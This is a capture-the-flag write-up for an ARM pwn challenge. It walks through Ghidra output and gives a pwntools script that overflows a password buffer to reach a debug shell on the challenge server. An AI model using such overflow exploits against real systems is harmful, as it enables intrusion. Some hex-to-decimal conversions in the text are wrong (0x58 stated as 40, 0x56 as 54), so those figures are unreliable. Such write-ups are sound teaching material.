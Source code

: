 ![](images/im3.png)

**Aarchbuild Write-Up**

This challenge was the first pwn of the CTF, an ARM one. We were given a binary file. Let's put it into GHIDRA, to see the output of the decompiler and understand the code.

![](images/im1.png)

The code in C is pretty easy to understand. First of all, it defined three variables, an array and two other integers. It asks us for a password, and fgets it but with a size that equals 0x58 so 40 in base10. It will allow us a nice overflow. Then, it creates a variable with the length of the password I guess (0xd == 13 in base10). It will finally xor our input with 0x36, that is 54 in base10; and then compare our input to the address defined at the beginning of the program to see if the value has changed. As the value of local_4 is defined before our array variable, we can overflow local_4, as the array that we will fill with a buffer will change the value of local_4. Indeed, as I can input 40 chars, the payload will have this form: password + buffer -> local_4 overflow (if buffer = 40 - 13 = 27 chars, local_4 var will equal 0x41414141). To exploit its vulnerability, I created a simple python program:

```
from pwn import *

r = remote('challenges.ecsc-teamfrance.fr', 4005)

#compute the good password for the check
strings = "eCfSDFwEeAYDr"
passwd = [ord(i) for i in strings]
#print(passwd)

flag = [chr(i ^ 54) for i in passwd] #int(0x56) = 54
r.recvuntil('Please enter your password:')

#just overflow the var to enter in debug mode

flag = ''.join(flag)
flag += 'A'*40
r.sendline(flag)
r.interactive()
```

As you see in the screenshot below, we will be in debug mode (have a shell) and will be able to print the flag:

![](images/im2.png)
